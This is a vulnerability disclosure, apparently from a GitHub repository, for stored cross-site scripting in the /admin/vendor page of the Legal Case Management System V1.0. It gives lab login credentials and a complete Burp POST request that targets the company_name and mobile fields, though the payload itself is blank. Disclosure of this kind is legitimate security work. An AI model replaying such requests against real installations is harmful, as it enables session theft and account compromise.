

## Legal Case Management System

## XSS on `/admin/vendor`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/vendor
```

The parameter `company_name` /`mobile` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/vendor HTTP/1.1
Host: 192.168.150.131
Content-Length: 1446
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9NEAJrBTMjHjeLVO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/vendor/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IlJxNlVNMmpRQitYd3JQcndSRFFXUHc9PSIsInZhbHVlIjoiWFl4R2M2ZnJyVWhKd0pHNFkrd01PbDgxTmVIckJ6UnR6YTRKcU55Y2RpMER3WjlLT0ttd015OXhyOTFORkZ1eiIsIm1hYyI6ImIwZWE1ODUzMjI3OGFkZThhMWVjOGMyMTBiYmM0MjA2OGFkMDBlMTQ0ODEwN2Q2Njg4M2RkYjk0MTFjYTk0NjQifQ%3D%3D; test_session=eyJpdiI6IjNHMDRja0trZWp6ZWlGZ09tUnkrTFE9PSIsInZhbHVlIjoiWVJLS1BQSHg2Qmt5TW13dXVqcEY2ZHdJeGtqWFwvVjlKRHFDOEVzT1ZjTlwvdFJDWUh0NVJiQkYxUTl2UVVVZmtmIiwibWFjIjoiNWFlNGVlM2Q5NjFkNzYxYWU4ZjlkMjIzOGM3OWIzZGVmNTFlZTk5NTc4M2I5MTljOWEwZDA4NWI3ZGZiZTNlNSJ9
Connection: close

------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="company_name"


------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="f_name"

2
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="l_name"

3
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="email"

4354@qq.com
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="mobile"


------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="alternate_no"

1234567890
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="address"

235 17th Street Southeast
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="country"

4
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="state"

165
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="city_id"

6433
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="gst"

1
------WebKitFormBoundary9NEAJrBTMjHjeLVO
Content-Disposition: form-data; name="pan"

2
------WebKitFormBoundary9NEAJrBTMjHjeLVO--

```

### Screenshot


